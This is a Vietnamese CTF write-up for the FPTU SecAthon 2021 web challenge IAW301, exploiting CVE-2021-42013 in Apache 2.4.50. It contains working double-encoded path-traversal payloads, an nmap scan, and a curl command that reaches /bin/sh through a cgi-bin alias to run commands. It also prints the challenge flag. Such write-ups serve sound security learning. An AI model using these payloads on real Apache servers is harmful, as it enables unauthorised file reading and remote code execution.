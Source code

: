 ```yaml
---
title: FPTU SecAthon 2021 | Web Writeup | IAW301
author:
  name: phucdc-noob
  link: https://github.com/phucdc-noob
date: 2021-10-09 20:30:00 +0700
categories: [CTF, Web Challenges]
tags: [writeups, web, fusec21]
mermaid: true
---
```


# IAW301

> Đây là một challenge dễ, nhưng thật tiếc vì mình lú nên đã gõ sai một kí tự trong payload mà không biết :'(
> Xin úp mặt vào tường để tự kiểm điểm :'(

- Bắt đầu với challenge, ta được cung cấp 2 dữ liệu, file httpd.conf, và gợi ý về flag:

![hints](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/762f1031aac218fa44bc2100116170a9e6fe8dbc/img/IAW301_1.png)

- `httpd.conf` là file config của Apache Server, truy cập vào file theo đường dẫn, mình nhận thấy có một số thứ hay ho:

```text
    <Directory "/usr/local/apache2/cgi-bin">
        AllowOverride None
        Options None
        Require all granted
    </Directory>
```

- Trong thời gian gần đây, có 2 CVE nổi tiếng liên quan đến 2 phiên bản của Apache và `cgi-bin` của nó, đó là [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) (Apache 2.4.49) và [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013) (Apache 2.4.50), đặc điểm chung là lỗi trong việc normalize path ở file `util.c` khiến tin tặc có thể sử dụng `path traversal` với payload thường thấy là `/cgi-bin/../../../etc.passwd`, nhưng, vì `util.c` đã check dấu `.` khi normalize path, nên chúng ta sẽ cần dùng tới những payload được encode như `/.%2e/` thay cho `/../`.

- Tất nhiên, giữa 2 CVE kể trên có sự khác nhau trong payload, vì vậy chúng ta cần check xem Apache đó thuộc phiên bản nào (nếu > 2.4.50 thì kiếp này coi như bỏ :'()

- Mình thử check với câu lệnh `nmap` đơn giản sau:

    ```nmap -A -p8889 139.180.208.121 -vvv```

    Và có được kết quả:

    ```shell
        PORT     STATE SERVICE REASON  VERSION
        8889/tcp open  http    syn-ack Apache httpd 2.4.50 ((Unix))
        | http-methods: 
        |   Supported Methods: HEAD GET POST OPTIONS TRACE
        |_  Potentially risky methods: TRACE
        |_http-title: Site doesn't have a title (text/html).
        |_http-server-header: Apache/2.4.50 (Unix)
    ```

- Như vậy là Apache 2.4.50, ta có thể dùng `%%32%65%%32%65/` hoặc `.%%32%65/` thay thế cho `../`

- Có một lưu ý là khi đọc `httpd.conf`, hãy để ý đến dòng `ScriptAlias` để biết liệu có alias nào thay cho `cgi-bin` không, ví dụ như trong bài này:

    ```ScriptAlias /nothingspecial/ "/usr/local/apache2/cgi-bin/"```

- Và để ý `DocumentRoot` như trong bài:

    ```DocumentRoot "/usr/local/apache2/htdocs"```

- Như vậy để truy cập được `/` thì ta cần 4 cặp `../`, thay thế alias và 2 cách encode đã kể trên, ta có payload:

    ```/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag```

- Nhưng, như vậy liệu có đúng? Thử với `curl` và đây là kết quả:

    ![IAW301_2](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/762f1031aac218fa44bc2100116170a9e6fe8dbc/img/IAW301_2.png)

- Thực tế có một cách khác, ta sẽ dùng đến `/bin/sh` và option `--data` của `curl` để mở file, đơn giản như sau:

    ```shell
        curl 'http://139.180.208.121:8889/nothingspecial/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; cat ../flag'
    ```

- Và đây là kết quả:
  
    ![IAW301_3](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/762f1031aac218fa44bc2100116170a9e6fe8dbc/img/IAW301_1.png)

- Flag: `FUSEC{970c5c12bc41fd2783748e73fccf99b0}`

> Xin lỗi cả team noname vì mỡ đến miệng rồi mà để tuột mất vì một dấu % thừa :'(
